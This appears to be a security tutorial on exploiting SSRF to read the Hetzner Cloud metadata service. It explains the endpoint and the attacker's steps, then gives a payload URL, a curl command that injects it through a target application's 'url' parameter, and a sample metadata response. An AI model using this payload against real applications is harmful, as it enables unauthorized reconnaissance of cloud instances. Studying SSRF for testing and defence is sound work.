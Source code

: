 ```yaml
---
title: Exploiting Hetzner Cloud Metadata via SSRF
description: Learn to exploit Hetzner Cloud metadata service with SSRF for sensitive
  data extraction.
keywords:
- Hetzner Cloud
- metadata service
- SSRF
- Server-Side Request Forgery
- cloud exploitation
- instance metadata
- sensitive data extraction
- cloud security
- web application vulnerability
---
```


# Hetzner Cloud

## Context

In this article, we will explore how to exploit the Hetzner Cloud metadata service using Server-Side Request Forgery (SSRF) to retrieve sensitive instance data. This will involve understanding the structure of Hetzner's metadata service and leveraging SSRF vulnerabilities to access internal cloud data. This guide assumes you have a foundational understanding of HTTP headers, web form structures, cloud service architecture, and cloud metadata service exploitation techniques, particularly SSRF.

## Theory

### Hetzner Cloud Metadata Service Structure

The Hetzner Cloud metadata service is accessible at a well-known non-routable IP address: `http://169.254.169.254/hetzner/v1/metadata`. This endpoint is designed to expose metadata related to the cloud instance it operates on. Crucially, this endpoint is intended to be accessible only from within the instance itself, allowing applications or scripts running on the instance to gather environment-specific configurations without exposing these details externally.

Applications with SSRF vulnerabilities become valuable targets, as these vulnerabilities can facilitate unauthorized queries to the metadata endpoint. Attackers aim to redirect the vulnerable application to request data from `http://169.254.169.254/hetzner/v1/metadata`, effectively proxying sensitive data to an external requester.

### Sensitive Data Available via Hetzner Metadata

The metadata returned by Hetzner's endpoint includes:

- **Hostname:** Represents the name of the instance.
- **Instance-id:** A unique identifier for the instance.
- **Public-ipv4:** The instance's public IP address.
- **Private-networks:** Lists private network configurations.
- **Availability-zone:** Indicates the instance's location within the data center.
- **Region:** Represents the broader geographical region of the data center.

These details, while primarily intended for configuration and automation scripts, can offer valuable insights for an attacker planning further actions or lateral movement.

### Attacker Mindset: SSRF to Metadata Extraction

An attacker leveraging SSRF to access metadata typically follows these steps:

1. Identify an SSRF vulnerability within a target application.
2. Craft a payload that routes a request to `http://169.254.169.254/hetzner/v1/metadata`.
3. Capture and analyze the returned metadata to expand the attack surface.

This attack presupposes that Hetzner trusts only internal, local processes to access its metadata endpoints, making robust SSRF auditing critical for security.

## Practice

### Extracting Hetzner Cloud Metadata via SSRF

Below is a step-by-step guide to exploiting SSRF to extract metadata from a Hetzner Cloud instance:

- **Identify SSRF Injection Point:**
  - Begin by locating a parameter within the target web application that allows for URL input. This can often be found in image URL fetches, API URL fetches, or redirect mechanisms.

- **Craft SSRF Payload:**

  ```http
  http://169.254.169.254/hetzner/v1/metadata
  ```

  - Utilize this crafted payload in the vulnerable parameter to redirect requests to Hetzner's metadata service.

- **Execute SSRF:**

  ```bash
  curl -X GET 'http://target-app/resource?url=http://169.254.169.254/hetzner/v1/metadata'
  ```

  - Use a tool like `curl` to simulate a web browser's request through the SSRF vulnerability.

- **Interpret Metadata Response:**

  ```json
  {
    "hostname": "example-vm",
    "instance-id": "123456",
    "public-ipv4": "203.0.113.10",
    "private-networks": ["10.0.0.5"],
    "availability-zone": "nbg1",
    "region": "eu-central"
  }
  ```

  - The above response contains the metadata including the hostname, instance-id, and network configurations, providing an attacker with specific environment details.

By executing these steps, an attacker can reveal sensitive information from Hetzner Cloud instances, thereby expanding their potential attack surface for further penetration or exploitation activities.

## Tools

- **curl**
- **Burp Suite** 

These tools facilitate crafting and executing SSRF payloads, as well as intercepting and manipulating web requests during exploitation efforts.